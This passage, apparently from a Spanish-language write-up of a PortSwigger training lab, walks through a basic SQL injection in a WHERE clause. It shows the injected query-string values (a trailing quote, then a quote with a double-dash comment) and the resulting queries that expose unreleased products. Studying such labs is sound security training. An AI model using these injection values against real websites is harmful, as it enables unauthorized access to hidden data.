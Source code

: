 A continuación, si agrego una comilla simple al final de la cadena de consulta:

```plaintext
❯ ?category=Corporate+gifts'      
```

```plaintext
❯ SELECT * FROM products WHERE category = 'Corporate gifts'' AND released = 1
```

Esto provocará un error, ya que hay una comilla simple que no está cerrada.

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_vulnerability_where_clause_hidden_data/2.png" width="1000">
</p><br>

A continuación, agrego un guión doble:

```plaintext
❯ ?category=Corporate+gifts'--
```
En la cadena de consulta:

```plaintext
❯ SELECT * FROM products WHERE category = 'Corporate gifts'--' AND released = 1
```

Cualquier cosa después de --será tratada como comentarios en sql.

Lo que significa que ahora el sitio web debería mostrar todos los productos de la categoría Regalos corporativos, tanto lanzados como inéditos. Tenga en cuenta que hay un elemento adicional llamado Gadgets plegables.


<p align="center">
     <img src="/assets/images/portswigger/sql_injection_vulnerability_where_clause_hidden_data/3.png" width="1000">
</p><br>
